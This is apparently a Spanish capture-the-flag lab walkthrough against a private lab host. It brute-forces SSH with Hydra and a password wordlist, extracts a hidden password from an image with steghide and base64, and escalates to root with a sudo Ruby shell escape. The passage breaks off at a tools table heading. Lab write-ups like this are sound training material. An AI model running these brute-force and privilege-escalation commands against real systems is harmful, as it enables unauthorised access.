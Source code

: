 
## Fuerza bruta SSH con Hydra
```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

---

## Acceso a SSH y exploración
```bash
ssh carlota@172.17.0.2
cd /carlota/Desktop/fotos/vacaciones
```

### Transferencia de la imagen a Kali
```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```

---

## Análisis de archivo e ingeniería inversa

### Tipo de archivo
```bash
file imagen.jpg
```

### Extracción con esteganografía
```bash
steghide --extract -sf imagen.jpg
```

### Decodificación de base64
```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

### Escalada de privilegios
```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
```

---

## 1. Cuadro de herramientas utilizadas

Una vez desplegado el laboratorio y explicado el paso a paso del mismo, ahora podemos explicar las herramientas utilizadas, así:
